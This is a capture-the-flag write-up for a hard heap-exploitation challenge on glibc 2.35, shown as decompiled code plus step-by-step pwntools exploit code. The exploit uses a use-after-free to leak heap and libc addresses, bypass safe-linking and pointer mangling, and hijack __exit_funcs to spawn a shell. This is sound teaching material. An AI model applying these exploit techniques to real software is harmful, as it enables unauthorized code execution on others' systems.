

        <font size="6">Dead or Alive</font>

​        2<sup>nd</sup> Oct 2024 / Document No. D24.102.260

​        Prepared By: 131LL

​        Challenge Author(s): 131LL

​        Difficulty: <font color=red>Hard</font>

​        Classification: Official


# Description

The Frontier Board’s bounty registration service is the backbone of law and order in the Frontier Cluster,
allowing citizens to post and track bounties on the most dangerous criminals, dead or alive.
Our system is secure, efficient, and reaches every corner of the galaxy, ensuring that no outlaw can hide for long.
The service protects both the identities of those issuing bounties and the integrity of the Board’s records.
From petty thieves to high-profile fugitives, every threat to our corporate order is handled swiftly and decisively.

# Synopsis

Dead or Alive is a hard pwn challenge, featuring protected heap pointers, mangled libc pointers, and glibc-2.35, where the attacker has to achieve code execution through exploiting the exit_funcs structure.

## Skills Required

- Good knowledge of heap exploitation

## Skills Learned

- Leaking heap addresses from protected pointers
- Understanding and defeating libc's pointer mangling mechanism
- Exploiting libc with no hooks through exit_funcs

### Protections

Let's start by running `checksec` against the binary we are given:


Every mitigation is enabled.

The GLibc version given is `2.35`, which is a relatively newer version. This means a few things for us. `Pointer mangling` will be something we have to deal with, and there are no hooks that give us easy code execution.

### Program Interface

Running the binary, we have a pretty standard interface for a heap challenge, but there is no "edit" functionality which is usually present.


### Disassembly ⛏️

Let's do some reversing with `Ghidra`.

`create()`:
```C
void create(void)
{
  int iVar1;
  void *pvVar2;
  long in_FS_OFFSET;
  void *bounty_amount;
  void *size;
  void **Bounty_t;
  ushort prompt;
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  if (0x31 < bounty_idx) {
    error("Maximum number of bounty registrations reached. Shutting down...");
                    /* WARNING: Subroutine does not return */
    exit(-1);
  }
  printf("Bounty amount (Zell Bars): ");
  bounty_amount = (void *)0x0;
  __isoc99_scanf(&DAT_001022f5,&bounty_amount);
  printf("Wanted alive (y/n): ");
  prompt = 0;
  read(0,&prompt,2);
  prompt = prompt & 0xff;
  iVar1 = strcmp((char *)&prompt,"y");
  printf("Description size: ");
  size = (void *)0x0;
  __isoc99_scanf(&DAT_001022f5,&size);
  if (size < (void *)0x65) {
    Bounty_t = (void **)malloc(0x20);
    if (Bounty_t == (void **)0x0) {
      error("Failed to allocate space for bounty");
                    /* WARNING: Subroutine does not return */
      exit(-1);
    }
    Bounty_t[1] = bounty_amount;
    *(bool *)((long)Bounty_t + 0x19) = iVar1 == 0;
    Bounty_t[2] = size;
    pvVar2 = malloc((size_t)Bounty_t[2]);
    *Bounty_t = pvVar2;
    *(undefined *)(Bounty_t + 3) = 1;
    if (*Bounty_t == (void *)0x0) {
      error("Failed to allocate space for bounty description");
                    /* WARNING: Subroutine does not return */
      exit(-1);
    }
    puts("Bounty description:");
    read(0,*Bounty_t,(size_t)Bounty_t[2]);
    *(void ***)(Bounties + (ulong)bounty_idx * 8) = Bounty_t;
    printf("Bounty ID: %d\n\n",(ulong)bounty_idx);
    bounty_idx = bounty_idx + 1;
  }
  else {
    error("Description size exceeds size limit");
  }
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

A global array of `Bounty_t struct pointers` is used to keep track of our allocations. A Bounty_t struct consists of the following: A description, which is allocated through malloc, a size for the description, a bounty amount, and a boolean to keep track if the target is wanted dead or alive. The user is prompted to enter data for all of these fields. The struct also holds another boolean to keep track if the Bounty_t is inuse. A global index of the last Bounty_t struct is also incremented with every `create()` call. Note that everytime this function is called, a `Bounty_t struct` is allocated as well as a bounty description.

`delete()`:
```C
void delete(void)
{
  long in_FS_OFFSET;
  uint ID;
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  printf("Bounty ID: ");
  ID = 0;
  __isoc99_scanf(&DAT_00102294,&ID);
  if (((int)ID < 0) || (bounty_idx <= ID)) {
    error("Bounty ID out of range");
  }
  else if ((*(char *)(*(long *)(Bounties + (long)(int)ID * 8) + 0x18) == '\x01') &&
          (**(long **)(Bounties + (long)(int)ID * 8) != 0)) {
    free(**(void ***)(Bounties + (long)(int)ID * 8));
    **(undefined8 **)(Bounties + (long)(int)ID * 8) = 0;
    *(undefined *)(*(long *)(Bounties + (long)(int)ID * 8) + 0x18) = 0;
    free(*(void **)(Bounties + (long)(int)ID * 8));
    putchar(10);
  }
  else {
    error("Invalid ID");
  }
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

The `delete()` function prompts the user to enter the bounty ID they want deleted, which is just the index on the global array. If the ID is valid, the Bounty is inuse and has a non-NULL description pointer, the program proceeds to delete the Bounty. The description is freed, then NULLed out. The inuse boolean is set to false, and Bounty struct itself is then freed, but it **not** NULLed out. This is an important bug.

`view()`:
```C
void view(void)
{
  undefined *puVar1;
  long in_FS_OFFSET;
  int ID;
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  printf("Bounty ID: ");
  ID = 0;
  __isoc99_scanf(&DAT_00102294,&ID);
  if ((ID < 0) || (0x31 < ID)) {
    error("ID out of range");
  }
  else if (*(long *)(Bounties + (long)ID * 8) == 0) {
    error("Bounty ID does not exist");
  }
  else if (*(char *)(*(long *)(Bounties + (long)ID * 8) + 0x18) == '\x01') {
    if (*(char *)(*(long *)(Bounties + (long)ID * 8) + 0x19) == '\0') {
      puVar1 = &DAT_0010243f;
    }
    else {
      puVar1 = &DAT_0010243b;
    }
    printf("\nBounty: %lu Zell Bars\nWanted alive: %s\nDescription: %s\n",
           *(undefined8 *)(*(long *)(Bounties + (long)ID * 8) + 8),puVar1,
           **(undefined8 **)(Bounties + (long)ID * 8));
  }
  else {
    error("Bounty has been removed");
  }
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

The `view()` function asks the user for a Bounty ID, and after checking if the ID is valid, the index of the global array is not NULL, and that the Bounty is inuse, the Bounty information is printed out to us.

### Exploitation

During the exploitation process, we will be using the fact that the Bounty_t pointers are not NULLed out to its full potential, since bypassing some checks can lead to a `Use-After-Free` vulnerability in multiple functions.

Like we mentioned earlier, every bounty registration allocates a Bounty_t struct, and a description, which we fully control. Our first objective is to obtain a heap leak. We want to create a freelist queue that looks like this, in order to get back a previously freed `Bounty_t struct` for our description (the Bounty_t struct is 26 bytes long):

```
Freelist: [Freed Bounty_t struct] -> [Freed Bounty_t struct] -> ... -> ...
```

We can do that by registering a bounty with a description size of 26 bytes, so the same as the `Bounty_t struct`, then registering a bounty with a description size of 100 bytes. When freeing both of those bounties, the 100 byte data chunk will end up on a seperate freelist. Let's see it in action.


```python
# helper functions
def alloc(size, amount=1337, data=b'aaa'):
  r.sendlineafter(b'==> ', b'1')
  r.sendlineafter(b':', str(amount).encode())
  r.sendlineafter(b':', b'n')
  r.sendlineafter(b':', str(size).encode())
  r.sendlineafter(b':', data)
  r.recvuntil(b'ID: ')
  return int(r.recvline())

def delete(idx):
  r.sendlineafter(b'==> ', b'2')
  r.sendlineafter(b':', str(idx).encode())

def view(idx, len=0):
  r.sendlineafter(b'==> ', b'3')
  r.sendlineafter(b':', str(idx).encode())
  r.recvuntil(b'Description: ')
  return r.recvline() if len == 0 else r.recv(len)

# ( Bounty_t struct used by binary is 26 bytes long )
# place 2 freed Bounty_t chunks in a tcache(0x30)
# next 0x30 contents request will get previous Bounty_t struct
# which contains a protected heap pointer
alloc(26)
alloc(100)
delete(0)
delete(1)
```



The first two freed chunks in `tcache-0x30` are `Bounty_t structs`. The second one will be returned to us as the bounty description if we request to register a bounty that has a 26-byte description. On that chunk lies a `protected heap pointer`, which we will be leaking.

A `protected heap pointer` is basically a heap pointer, XORed with the base address of the heap shifted right by 12 bits.

```
PROTECTED_HEAP_PTR = HEAP_PTR ^ (HEAP_BASE >> 12)
```

Due to the right shifting, bits 16 to 28 (most significant bits) are not altered since they are XORed with 0, and we can reverse this process and recover everything but the 12 least significant bits of the pointer, which we do not need anyways.

```python
def unprotect(ptr):
  mask = 0xfff << 52
  while mask:
    v = ptr & mask
    ptr ^= (v >> 12)
    mask >>= 12
  return ptr

# only overwrite a single byte of the pointer
alloc(26, data=b'')

ptr = u64(view(2, len=6).ljust(8, b'\x00'))
print(f'leak = {hex(ptr)}')
ptr = unprotect(ptr)
print(f'unprotected ptr = {hex(ptr)}')
heap_base = (ptr >> 12) << 12
print(f'heap base @ {hex(heap_base)}')
```


We can verify through `gdb` that the address calculated is correct.

Next up, obtaining a libc leak. This is tricky since there is a hard limit on the bounty description size - 100 bytes long. In order to get a freed chunk into the `unsorted bin`, we need to create a fake chunk on the heap (large size). Controlling a previously freed `Bounty_t struct`, we can provide fake fields for the `inuse` and `description` fields, getting an `arbitrary free` using the Bounty ID of the initial bounty that was freed.

We create a fake chunk of size `0x420`, which is large enough for the unsorted bin (prev_inuse bit should be set, so it becomes `0x421`). We also need to place the previous chunk size (`0x420`) exactly 0x420 bytes after our fake header. It takes a bit of trial and error and gdb debugging, but we can make it work like this.

```python
# create fake chunk of unsorted bin size
alloc(16, data=b'X'*8+p64(0x421))
for i in range(6): alloc(100, data=str(i).encode()*100)
alloc(0x30, data=b'6'*0x30)
alloc(0x50, data=b'\x00'*0x10+p64(0x420)+p64(0x21)*5) # prev_size 0x420

# arbitrary address free
# same setup as before
idx = alloc(26)
alloc(100)
delete(idx)
delete(idx+1)
```

Before freeing the fake chunk, this is the heap layout.


```python
ptr0x420 = heap_base + 0x3b0 # address of fake chunk
print(f'freeing fake chunk @ {hex(ptr0x420)}')
# description(8 bytes)/bounty(8 bytes)/size(8 bytes)/inuse(1 byte)/alive(1 byte)
alloc(26, data=p64(ptr0x420)+p64(0)+p64(8)+b'\x01\x01')
delete(idx) # free fake 0x420 chunk - idx from code snippet above
```

Sure enough, if everything is correct, we don't get a crash, and we get the fake chunk into the unsorted bin.


The libc address can be leaked the same way we leaked a heap address in our first step.

```python
idx = alloc(26)
alloc(100)
delete(idx)
delete(idx+1)
# heap+0x3e0 contains our libc pointer
alloc(26, data=p64(heap_base+0x3e0)+p64(0)+p64(8)+b'\x01\x01')
libc.address = u64(view(idx, len=6).ljust(8, b'\x00')) - 0x219ce0
print(f'libc base @ {hex(libc.address)}')
assert libc.address&0xfff == 0, 'Bad libc base address'
```


Once again, we verify the calculated address using gdb.

Now, before anything else, we need a target to get code execution. Since there are no hooks, `exit_funcs` is an obvious choice. `exit_funcs` is basically a mechanism used internally to manage functions that need to be called when a program terminates. Let's start by calculating some addresses.

```python
__exit_funcs = libc.sym.__exit_funcs
__run_exit_handlers = libc.sym.__run_exit_handlers
print(f'__exit_funcs @ {hex(__exit_funcs)}')
print(f'__run_exit_handlers() @ {hex(__run_exit_handlers)}')
```

`__run_exit_handlers()` is a function that we will be stepping through with `gdb` during our debugging shortly.

Let's look at some glibc source code to get a better understanding of what we are trying to accomplish.

```C
// from glibc/stdlib/exit.h
enum
{
  ef_free,  /* `ef_free' MUST be zero!  */
  ef_us,
  ef_on,
  ef_at,
  ef_cxa
};
struct exit_function
{
  /* `flavour' should be of type of the `enum' above but since we need
  this element in an atomic operation we have to use `long int'.  */
  long int flavor;
  union
  {
    void (*at) (void);
    struct
    {
      void (*fn) (int status, void *arg);
      void *arg;
    } on;
    struct
    {
      void (*fn) (void *arg, int status);
      void *arg;
      void *dso_handle;
    } cxa;
  } func;
};
struct exit_function_list
{
  struct exit_function_list *next;
  size_t idx;
  struct exit_function fns[32];
};
```

Our goal is to create an `exit_function_list`, with an `exit_function` that calls `system("/bin/sh")`. We can do that on the heap, and since we have a heap leak its trivial to refer to our fake `exit_function_list`. But there are a few obstacles we need to overcome at this stage.

`glibc-2.35` uses `pointer mangling` to make it troublesome to pass function pointers, and makes the exploitation process a lot harder. The original function pointer is XORed with a secret key, and RORed by 0x11 bits. We need that secret key in order to encode our own function pointers and get code execution.

We will retrieve the key in the following way; The address of the function called by `exit_funcs` is known, since we can just step through `__run_exit_handlers()` with gdb, and see the `un-mangled` pointer. That function is `fflush()`, and it's not standard. But with a closer look, we can see it being registered in the `setup()` function.

```C
void setup(void)
{
  setvbuf(stdin,(char *)0x0,2,0);
  setvbuf(stdout,(char *)0x0,2,0);
  setvbuf(stderr,(char *)0x0,2,0);
  atexit(fflush); // <---
  return;
}
```

If we leak the `mangled` function pointer, we can get the key. This is exactly what we will do.

```python
# helpers
rol64 = lambda val, r_bits: \
      (val << r_bits%64) & (2**64-1) | \
      ((val & (2**64-1)) >> (64-(r_bits%64)))

ror64 = lambda val, r_bits: \
      ((val & (2**64-1)) >> r_bits%64) | \
      (val << (64-(r_bits%64)) & (2**64-1))

# "initial" is the exit_function_list originally called
# look through with gdb
initial = libc.sym.initial
initial_func = libc.sym.fflush
print(f'initial @ {hex(initial)}')

# read mangled initial_func ptr
# and retrieve the key comparing with original ptr
# https://elixir.bootlin.com/glibc/glibc-2.35/source/stdlib/exit.c
# __run_exit_handlers() source code
# step through it with gdb and get demangled func ptr
idx = alloc(26)
alloc(100)
delete(idx)
delete(idx+1)
# initial+56 contrains the mangled fflush pointer
alloc(26, data=p64(initial+56)+p64(0)+p64(8)+b'\x01\x01')
mangled_initial_func = u64(view(idx, len=8))
print(f'mangled initial func ptr = {hex(mangled_initial_func)}')
key = ror64(mangled_initial_func, 0x11) ^ initial_func
print(f'key = {hex(key)}')
```

And we have the key.


Next up, creating a fake `exit_function_list`. Simple enough now that we have the key.

```python
# exit_function_list struct - look at source code
# NULL next ptr - idx 1 - exit_function struct: flavor ef_cxa (enum 4) - void *fn - void *arg - NULL ptr because of union (24 bytes used)

# (for some reason first 24 bytes are where being nulled out - pad with 16 junk bytes)
exit_shell = p64(0)*2 # junk
exit_shell += p64(0) + p64(1) + p64(4) # fake exit_function_list starts here
exit_shell += p64(rol64(libc.sym.system ^ key, 0x11)) # mangled func ptr
exit_shell += p64(next(libc.search(b'/bin/sh\x00')))  # arg ptr
exit_shell += p64(0) # NULL because of union
exit_shell_ptr = heap_base + 0x450 # address of our exit_function_list
print(f'exit_shell_ptr @ {hex(exit_shell_ptr)}')
alloc(len(exit_shell), data=exit_shell) # allocate it
```

Now, we have to overcome our last obstacle, getting an arbitrary write. We will do this by creating two overlapping chunks, and after the smaller inner chunk is freed, overwrite its freelist pointers to get a chunk on `exit_funcs`.

```python
# create a 0x58 sized chunk with a fake smaller chunk inside
# free the bigger chunk and keep track of the fake chunk pointer
# (we free it since there is no edit functionality, and we plan on getting back the 0x58 chunk)
idx = alloc(0x58, data=p64(0)*3+p64(0x31)+b'X'*32)
delete(idx)
free_ptr = heap_base + 0x4e0 # pointer to the fake 0x31 sized chunk
print(f'free ptr @ {hex(free_ptr)}')
```

Now, using the `UAF` vulnerability again, we get an arbitrary free on the fake chunk.

```python
idx = alloc(26)
alloc(100)
delete(idx)
delete(idx+1)
alloc(26, data=p64(free_ptr)+p64(0)+p64(8)+b'\x01\x01')
delete(idx)
```

On our next 0x58 request, we will get back our original chunk, and overwrite our fake chunks freelist pointers to get the arbitrary write into `exit_funcs`. Thing is, for `malloc()` to return a valid address, it needs to be 16-byte aligned, and `exit_funcs` isn't. So we will be allocating 8 bytes before `exit_funcs` and use some padding bytes. Do not forget to `protect` the pointer.

```python
# overflow into freed chunk
alloc(0x58, data=p64(0)*3+p64(0x31)+p64((__exit_funcs-8)^(heap_base>>12))+b'A'*30)
```

Let's take a look with `gdb`.


Sure enough, `exit_funcs-8` is on the `0x30 tcache freelist`. Let's overwrite `exit_funcs` with our fake `exit_function_list`.

```python
idx = alloc(0x28, data=p64(0)+p64(exit_shell_ptr))
```

There is no exit option in the menu. Scanning through the source, we see the only option to call `exit()` is by using up all the available space in the global array, in which case we get the message "Maximum number of bounty registrations reached. Shutting down..." and `exit(-1)` is called. Let's do that.

```python
# force exit and get payload executed
for _ in range(idx, 49): alloc(8, data=b'pwn3d')
r.sendline(b'1')

print('** SHELL **')
r.interactive()
```

## Solution

And there we have it:


